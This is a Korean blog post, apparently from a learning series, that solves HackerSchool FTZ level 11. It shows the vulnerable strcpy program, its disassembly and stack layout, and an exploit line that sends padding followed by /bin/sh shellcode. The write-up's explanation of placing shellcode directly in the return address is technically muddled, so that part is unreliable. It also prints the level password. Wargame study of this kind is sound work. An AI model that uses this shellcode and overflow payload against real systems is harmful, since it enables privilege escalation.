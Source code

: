 ```yaml
---
date: '2022-10-01'
title: '시스템 해킹(9) : 해커스쿨 FTZ 레벨 11'
categories: ['C-SEC', 'KOR']
summary: ''
thumbnail: './C_Sec.jpg'
---
```


### 0. 들어가기 전에

조금 더 어려운 BOF문제! 물론 BOF가 아니고 Format String 기법으로도 공격할 수 있지만, 기왕 BOF 연습중인거 BOF로 풀었다.

### 1. level11

이것 또한 BOF 문제이다. 하지만 이번엔 "진짜" BOF처럼 ret값이 들어가는 주소에 쉘코드를 입력해야 한다. 이는 소스코드를 보면 확인할 수 있다.

```
#include <stdio.h>
#include <stdlib.h>

int main( int argc, char *argv[] )
{
        char str[256];

        setreuid( 3092, 3092 );
        strcpy( str, argv[1] );
        printf( str );
}
```

attackme의 소스코드다. 음..일단 tmp에 복사해서 한 번 gdb로 디버깅
해보는 것이 좋을 것 같다.

```
0x08048470 <main+0>:    push   ebp
0x08048471 <main+1>:    mov    ebp,esp
0x08048473 <main+3>:    sub    esp,0x108
0x08048479 <main+9>:    sub    esp,0x8
0x0804847c <main+12>:   push   0xc14
0x08048481 <main+17>:   push   0xc14
0x08048486 <main+22>:   call   0x804834c <setreuid>
0x0804848b <main+27>:   add    esp,0x10
0x0804848e <main+30>:   sub    esp,0x8
0x08048491 <main+33>:   mov    eax,DWORD PTR [ebp+12]
0x08048494 <main+36>:   add    eax,0x4
0x08048497 <main+39>:   push   DWORD PTR [eax]
0x08048499 <main+41>:   lea    eax,[ebp-264]
0x0804849f <main+47>:   push   eax
0x080484a0 <main+48>:   call   0x804835c <strcpy>
0x080484a5 <main+53>:   add    esp,0x10
0x080484a8 <main+56>:   sub    esp,0xc
0x080484ab <main+59>:   lea    eax,[ebp-264]
0x080484b1 <main+65>:   push   eax
0x080484b2 <main+66>:   call   0x804833c <printf>
```

다음과 같은 코드가 뜨는데, 차근차근 분석해보면
ebp-264 시점에 우리의 str[256]이 선언되는 것 같다. strcpy는 길이 체크를 하지 않으니
버퍼오버플로우의 취약점이 보인다.  


일단 264-256을 해서 더미데이터가 8바이트 존재하는걸 확인할 수 있다. 또한 기본적으로 SFP 4바이트와
ret 4바이트가 존재할 것이다. 따라서 스택구조를 재구성해보면 :
```
str[256]
dummy[8]
sfp[4]
ret[4]
```
처럼 될 것이다. 우리가 조작하고자 하는 겂은 ret값이니 우리는 총 268바이트를 사용해
뭔가를 채우고, ret에 4바이트 쉘코드를 넣어 attackme를 실행시키면 될 것 같다. 


여기서 ret니 sfp니 아무것도 모르겠다면, 컴퓨터 구조(특히 레지스터)와 어셈블리에 대한 공부가 더 필요하다고 볼 수 있겠다. 간단히만 말하자면 ret는 return해서 돌아가는 주소이고(즉, 함수가 완료될떄 다음에 실행될 코드) sfp는 현재 스택의 기준을 잡는 값으로, 만약 이게 상위에서 호출된 함수라면 그 상위 함수의 위치값을 저장해 완료시 돌아갈 위치를 세이브해준다고 생각하면 된다.


이런걸 보면 확실히 리버싱 공부를 더 해야할 것 같다. 이런 예제야 쉽지만...

```
./attackme 'python-c'print"A"*268+
"\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\
x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\
x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\xb0\x01\xcd\x80"'

//작성한 쉘 코드.
```
쉘코드는 인터넷에 널려있다. 스스로 만들기는 아직 실력이 좀 부족하다.


아, 그리고 쉘코드가 4바이트가 넘어가는 경우도 허다한데, 이런 경우는 환경변수 등록을
통해 등록된 환경변수의 주소를 return값으로 넘겨주면 된다. 이에 대해선 level12에서
다루도록 하겠다.


비밀번호 : it is like this

---
## Source

- 해커스쿨 FTZ
- Me!